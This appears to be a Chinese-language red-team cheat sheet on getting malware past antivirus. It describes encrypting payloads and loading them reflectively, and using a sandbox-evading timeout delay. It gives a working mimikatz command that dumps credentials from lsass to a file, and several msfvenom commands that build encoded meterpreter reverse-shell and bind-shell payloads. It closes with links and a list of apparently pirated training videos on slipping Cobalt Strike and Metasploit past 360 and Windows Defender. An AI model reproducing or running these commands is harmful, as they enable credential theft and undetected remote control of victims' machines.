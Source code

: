 普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。
启动后 cmd /c timeout 延迟等待N秒用来反沙箱

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [不会写代码，但你可以免杀三件套](https://mp.weixin.qq.com/s/NqH7kKS7XQmxaVUDacocZA)
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)
- [写外挂时偶然想到的免杀思路](https://mp.weixin.qq.com/s/0c6D2aw9xk-NPKYuCkvoIg)
- [Rust免杀 - Shellcode加载与混淆](https://mp.weixin.qq.com/s/5SP0FerVIsEk3P-eH3PmKw)
- [常用工具免杀-助你护网](https://mp.weixin.qq.com/s/HBLpmCAoPRzvWq5akmLBTw)
- [『杂项』利用 Windows 白名单免杀](https://mp.weixin.qq.com/s/oZLhkFDKOxFUqePqT6HoRA)
7-项目七 渗透有防护的内网域_18 msf 正向木马免杀过360 全家桶【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇01mimikatz免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇02PrintSpoofer免杀过360杀毒360安全卫士【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇03MSF用加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇04Python3Cobaltstrikeshellcode免杀过360卫士和360杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇05Golang加载器Cobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇06GolangCobaltstrikeshellcode免杀国内主流杀软【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇07c#xor加载器免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇08Cobaltstrike免杀过360和WindowsDefender【瑞客论坛 www.ruike1.com】.mp4
26-红队攻击指南工具免杀篇09msf加密壳免杀过360安全卫士和360安全杀毒【瑞客论坛 www.ruike1.com】.mp4
Cobalt Strike 第十五章 使用多种方法免杀 payload【瑞客论坛 www.ruike1.com】.docx
暗月实战项目八19metasploit免杀杀毒软件并且开启远程终端登录目标服务器【瑞客论坛 www.ruike1.com】.mp4
暗月实战项目十一05frp反向代理msf到公网msf免杀过火绒上线【瑞客论坛 www.ruike1.com】.mp4